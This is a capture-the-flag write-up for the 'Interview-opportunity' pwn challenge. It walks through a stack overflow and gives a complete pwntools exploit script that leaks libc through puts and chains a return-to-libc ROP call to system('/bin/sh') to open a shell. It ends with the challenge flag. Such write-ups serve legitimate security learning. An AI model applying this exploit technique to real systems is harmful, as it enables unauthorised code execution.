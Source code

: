 # Interview-opportunity

## Challenge Description: Good luck on your interview...

This challenge was very similar to HTB Cyber Santa's [naughty_list](../../HTB%20Cyber%20Santa%202021/Pwning/Naughty%20List/README.md), and so I used alot of the same methods to solve the challenge such as:
* Using **pwninit** to patch the binary to the provided libc file
* Finding the offset with **gef**
* Leaking the address of the *puts* function
* Using the *system* function from libc with the argument *'/bin/sh'* to pop a shell

The main difference this time was that I decided to use the *ROP* object from pwntools to simplify the code.

I first check the security permissions and see that **NX** is enabled, meaning that is likely a *return-to-libc* attack.
![checksec](https://user-images.githubusercontent.com/71312079/153183454-8fcd07ff-d0a2-4f54-9957-1cf9f459ebf0.png)

I then proceed to run the file and am greeted with the following prompt, to which I key in a string of 'a's and see the *segmentation fault*

![segfault](https://user-images.githubusercontent.com/71312079/153183475-5dbbb084-3454-45a7-b450-bdd920646d84.png)

To determine the offset, I use **gef** and see that its value is *34* (Based on LE architecture from *checksec*)

![offset](https://user-images.githubusercontent.com/71312079/153183471-ec2e9a08-2f05-4cce-9c8b-d4639c735429.png)

Using *ROP* for payload generation saves me a step in finding the ROP objects, and pwntool's *flat* command allows me to flatten all the arguments into a single string to be sent as a payload. Using *rop.dump* also provides a sanity check in debugging errors as the payload can be seen in a nice format.

**Exploit script**
```python
from pwn import *

e = context.binary = ELF('./interview-opportunity_patched', checksec=False)
l = ELF('./libc.so.6', checksec=False)
r = process('./interview-opportunity_patched')
#r = remote('mc.ax', 31081)

offset = 34 
rop = ROP(e)
rop.puts(e.got['puts'])
rop.call(e.symbols['main'])
payload = flat({offset:rop.chain()})
log.info("Stage 1 ROP chain:\n" + rop.dump())

r.recvuntil(b'Gang?\n')
r.sendline(payload)
r.recvuntil(b'\n')
r.recvuntil(b'\n')

leaked_add = r.recvline().strip()
log.info("Leaked address:\n" + str(leaked_add))

puts_addr = u64(leaked_add.ljust(8, b'\x00'))
l.address = puts_addr - l.symbols['puts']

r.recvuntil(b'Gang?\n')

rop = ROP(l)
rop.system(next(l.search(b"/bin/sh")))
payload = flat({offset:rop.chain()})
log.info("Stage 2 ROP chain:\n" + rop.dump())
r.sendline(payload)
r.interactive()
```
Running the script above allowed me to obtain a shell and retrieve the flag.

![exploit](https://user-images.githubusercontent.com/71312079/153183468-d7fe44bf-4ace-4be2-aa75-e85a87b6bd47.png)


FLAG: `dice{0ur_f16h7_70_b347_p3rf3c7_blu3_5h4ll_c0n71nu3}`


